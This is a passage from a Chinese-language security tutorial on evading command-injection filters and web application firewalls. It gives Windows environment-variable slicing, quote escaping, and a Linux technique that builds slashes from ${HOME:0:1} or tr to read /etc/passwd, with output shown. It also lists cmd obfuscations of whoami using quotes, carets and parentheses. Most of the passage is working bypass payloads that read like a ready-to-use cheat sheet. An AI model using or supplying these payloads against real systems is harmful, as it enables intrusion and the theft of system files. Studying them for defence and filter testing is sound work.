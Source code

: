 windows 平台：

```
ping%CommonProgramFiles:~10,-18%IP
ping%PROGRAMFILES:~10,-5%IP
```

#### 引号逃逸

当恶意命令被扩在引号内时，可用 \ 转义引号逃逸

#### 不带反斜杠和斜杠的命令执行

linux bash：

```
root@veek▸~▸ $ echo ${HOME:0:1}
/
root@veek▸~▸ $ cat ${HOME:0:1}etc${HOME:0:1}passwd
root:x:0:0:root:/root:/bin/bash
root@veek▸~▸ $ echo .| tr '!-0''"-1'
/
root@veek▸~▸ $ tr '!-0''"-1'<<<.
/
root@veek▸~▸ $ cat $(echo .| tr '!-0''"-1')etc$(echo .| tr '!-0''"-1')passwd
root:x:0:0:root:/root:/bin/bash
```

### 二. 命令执行之 WAF 绕过

#### windows 下

##### 1.1 符号与命令的关系

在看一个例子开始之前，首先了解一点，”和 ^ 这还有成对的圆括号 () 符号并不会影响命令的执行。在 windows 环境下，命令可以不区分大小写

```
whoami //正常执行
w"h"o"a"m"i //正常执行
w"h"o"a"m"i" //正常执行
wh""o^a^mi //正常执行
wh""o^am"i //正常执行
((((Wh^o^am""i))))//正常执行
```

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoQNv9FKIAMZtbic8jG9LvrUPVYJy5fDOZysu5gMM0YLiayt5eXTfUcgO7hU6fbOSIgiclxj0NjnOtiaA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoQNv9FKIAMZtbic8jG9LvrUaE3WZSLLl5cib4QE5dic8q9XZq2rDcNN7MZvVaL0T9qK4LQFuIAmQcUQ/640?wx_fmt=png)

当然你可以加无数个” 但不能同时连续加 2 个 ^ 符号，因为 ^ 号是 cmd 中的转义符，跟在他后面的符号会被转义

```
w"""""""""""""hoami //正常执行
w"""""""""""""hoa^m""i //正常执行
w"""""""""""""hoa^^m""i //执行错误
```

